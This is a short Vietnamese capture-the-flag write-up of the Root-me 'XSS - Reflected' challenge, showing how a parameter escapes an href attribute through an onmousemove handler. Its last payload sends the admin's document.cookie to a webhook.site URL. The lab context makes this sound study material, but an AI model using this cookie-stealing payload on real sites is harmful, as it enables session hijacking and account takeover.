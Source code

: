 # Cross-site scripting (XSS)

## Root-me-1: [XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)

Trong lab ta cần lấy được cookie của admin thông qua Reflected XSS

Thử truyền tham số bất kỳ vào `?p`

![image.png](Images/image.png)

Khi inspect thì `test` được truyền vào đang ở trong `<a>`, vậy trước hết phải escape ra khỏi attribute `href=` do vẫn còn trong tag `<a>` nên ta có thể thêm 1 event attribute khác như `onmousemove`để thực hiện `alert`

payload: `?p=test' onmousemove='alert(1)`

![image.png](Images/image%201.png)

![image.png](Images/image%202.png)

okay, vậy bây h chỉ cần tạo link webhook và report url cho admin để lấy cookie

payload: `?p=test' onmousemove='document.location="[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)".concat(document.cookie)`
